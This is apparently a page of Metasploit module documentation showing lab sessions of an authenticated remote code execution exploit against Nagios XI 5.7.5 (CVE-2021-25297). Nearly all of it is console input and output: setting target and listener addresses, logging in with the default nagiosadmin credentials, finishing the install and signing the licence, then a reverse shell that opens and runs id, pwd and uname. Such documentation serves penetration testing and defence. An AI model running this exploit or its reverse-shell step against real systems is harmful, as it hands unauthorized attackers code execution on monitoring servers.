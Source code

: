 ```
[*] Started reverse SSL handler on 192.168.153.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[!] The target seems to be a Nagios XI application that has not been fully installed yet.
[*] Attempting to finish the Nagios XI installation on the target using the provided password. The username will be `nagiosadmin`.
[*] Attempting to authenticate to Nagios XI...
[!] The Nagios XI license agreement has not yet been signed on the target.
[*] Attempting to sign the Nagios XI license agreement...
[*] License agreement signed. The module will wait for 5 seconds and retry the login.
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Command shell session 1 opened (192.168.153.128:4444 -> 192.168.153.132:56222) at 2023-02-07 11:33:53 -0600

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
pwd
/usr/local/nagiosxi/html/config
uname -a
Linux localhost.localdomain 3.10.0-1160.2.2.el7.x86_64 #1 SMP Tue Oct 20 16:53:08 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

### CentOS7 Running NagiosXI 5.7.5 (Official OVA) - CVE-2021-25297
```
msf > use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOST 192.168.153.132
RHOST => 192.168.153.132
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.153.128
LHOST => 192.168.153.128
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set USERNAME nagiosadmin
USERNAME => nagiosadmin
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_configwizards_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed,
                                              try to do so. This includes signing the license agreem
                                              ent.
   PASSWORD        nagiosadmin      no        Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port
                                              ][...]
   RHOSTS          192.168.153.132  yes       The target host(s), see https://github.com/rapid7/meta
                                              sploit-framework/wiki/Using-Metasploit
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This
                                               must be an address on the local machine or 0.0.0.0 to
                                               listen on all addresses.
```